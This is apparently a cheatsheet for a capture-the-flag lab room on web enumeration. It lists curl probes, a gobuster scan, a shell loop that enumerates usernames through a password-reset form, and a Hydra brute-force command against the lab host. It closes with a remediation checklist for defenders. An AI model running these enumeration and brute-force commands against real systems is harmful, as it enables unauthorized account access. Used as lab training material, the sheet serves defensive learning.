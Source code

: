 Cheatsheet — Quick commands & regex
Recon & probing
# Host discovery (already provided by room)
# HTTP headers
curl -I http://enum.thm


# Full request
curl -v http://enum.thm/login
Directory / file discovery
gobuster dir -u http://enum.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
Username / password enumeration
# Simple curl loop (password reset/login)
for u in $(cat usernames.txt); do curl -s -X POST -d "username=$u" http://enum.thm/forgot-password | grep -i "sent" && echo "FOUND $u"; done


# Hydra (HTTP form / basic)
hydra -L usernames.txt -P passwords.txt enum.thm http-get /protected
Burp Intruder tips

Use clusterbomb/username list in position, grep for distinct response strings.

Set a reasonable throttle and use a small list first.

Regex examples for parsing

Extract token from HTML: token=([A-Za-z0-9_-]{8,})

Check for email: ([a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,})

Remediation checklist (for defenders)

Return uniform error messages on login/password-reset.

Implement rate-limiting + lockout for repeated failed attempts.

Use cryptographically secure, single-use, time-limited tokens for resets.

Enforce strong password policies and MFA for sensitive accounts.
